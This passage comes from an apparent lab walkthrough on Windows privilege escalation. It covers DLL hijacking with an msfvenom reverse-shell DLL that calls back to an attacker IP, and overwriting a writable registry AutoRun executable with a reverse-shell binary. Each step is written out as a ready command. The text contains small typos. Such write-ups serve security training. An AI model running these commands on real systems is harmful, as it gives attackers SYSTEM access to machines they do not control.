 In Procmon, stop and clear the current capture, press `Ctrl-L` to open up the filter panel, add a new filter on the process name matching the executable `dllhijackservice.exe`, and deselect `Show Retwork Activity` and `Show Network Activity`.

Start capturing again and start the service.
```powershell
net start dllsvc
```

Look at the results and look for DLLs with "NAME NOT FOUND" that is located in a writable directory. In this case, `C:\Temp\hijackme.dll` is in a writable directory.

On the attacker machine, generate a msfvenom reverse shell payload with the same name as the dll file.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.9.71 LPORT=53 -f dll -o hijackme.dll
```

Transfer the `hijackme.dll` payload from the attacker machine to the `C:\Tem` directory of the Windows host.
```powershell
copy \\10.13.9.71\thm\hijackme.dll C:\Temp
```

Stop and then start the service to spawn a SYSTEM shell.
```powershell
net stop dllsvc
net start dllsvc
```

## Registry Exploits

### Autoruns
Programs can be configured in the Registry to run on Startup with elevated privileges. If an `AutoRun` executable is writable, escalation of privileges may be possible when an administrator logs in to the system.

Query the registry for AutoRun executables.
```powershell
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

    My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"
```

Check if the AutoRun executable is writable.
```powershell
accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

Create a backup.
```powershell
copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
```

Overwrite the AutoRun executable with a reverse shell payload.
```powershell
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```
